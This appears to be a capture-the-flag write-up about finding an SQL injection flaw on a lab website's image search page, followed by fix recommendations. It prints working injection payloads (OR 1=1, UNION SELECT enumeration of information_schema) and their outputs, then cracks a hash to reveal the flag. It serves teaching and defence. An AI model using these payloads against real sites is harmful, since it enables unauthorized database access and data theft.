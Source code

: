 # Breach Name: SQL Injection on Search Image Page
## Description of the Breach

This breach was identified on the search image page of the website, where an SQL Injection vulnerability allows unauthorized access to the database. By injecting SQL commands into the input field, we were able to retrieve sensitive information, including a flag hidden in the database.

## Steps to Reproduce

1. Navigate to the Search Image Page:
	- From the homepage, go to the search image page:
	```
	http://localhost:8080/?page=searchimg
	```

2. Test for SQL Injection:
	- In the input field, start by testing simple SQL injection commands, such as:
	```
	1 OR 1=1
	```
	This query returns multiple entries, indicating that the input is vulnerable to SQL injection:
	```
	ID: 1 OR 1=1 
	Title: Nsa
	Url : https://fr.wikipedia.org/wiki/Programme_

	ID: 1 OR 1=1 
	Title: 42 !
	Url : https://fr.wikipedia.org/wiki/Fichier:42

	ID: 1 OR 1=1 
	Title: Google
	Url : https://fr.wikipedia.org/wiki/Logo_de_Go

	ID: 1 OR 1=1 
	Title: Earth
	Url : https://en.wikipedia.org/wiki/Earth#/med

	ID: 1 OR 1=1 
	Title: Hack me ?
	Url : borntosec.ddns.net/images.png
	```

3. Enumerate Database Tables:
	- Use SQL injection to enumerate the table names in the database:
	```
	ID: 1 OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables
	```
	This query lists all the tables in the database.

4. Enumerate Columns in a Specific Table:
	- After identifying the relevant table, enumerate its columns using:
	```
	ID: 1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

5. Search for Sensitive Data:
	- While enumerating, you may come across a table and column with a suspicious or interesting name, such as FLAG. After further investigation, you can search for specific data using:
	```
	ID: 1 OR 1=1 UNION SELECT id, comment FROM list_images
	```
	This query reveals:
	```
	Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
	Url : 5
	```

6. Decrypt the MD5 Hash and Convert to SHA-256:
	- The revealed information suggests that you need to decode the provided MD5 hash, then convert it to SHA-256 to get the flag.
	- Use an online tool like DCode to decode the MD5 hash:
	  - MD5 Hash: 1928e8083cf461a51303633093573c46
	  - Decrypted Text: albatroz
	- Convert the decrypted text (albatroz) to SHA-256 using an online tool or a script:
	```
	echo -n "albatroz" | sha256sum
	```
	Flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Explanation of the Breach

The vulnerability here is an SQL Injection flaw on the search image page. The application fails to properly sanitize user input, allowing attackers to execute arbitrary SQL commands. This can lead to unauthorized access to the database, exposing sensitive information, and ultimately revealing hidden data like flags.

## How to Fix the Breach

1. Use Prepared Statements and Parameterized Queries:
	- Ensure that all database queries use prepared statements with parameterized inputs to prevent SQL injection.

2. Input Validation and Sanitization:
	- Validate and sanitize all user inputs, ensuring that only expected data types and values are accepted.

3. Limit Database Permissions:
	- Restrict the database permissions for the application to the minimum necessary. This reduces the potential impact of an SQL injection attack.

4. Monitor and Log Suspicious Activity:
	- Implement logging and monitoring to detect and respond to suspicious database queries, particularly those involving SQL injection attempts.

5. Use Web Application Firewalls (WAF):
	- Deploy a WAF to filter out malicious traffic and protect against common web vulnerabilities like SQL injection.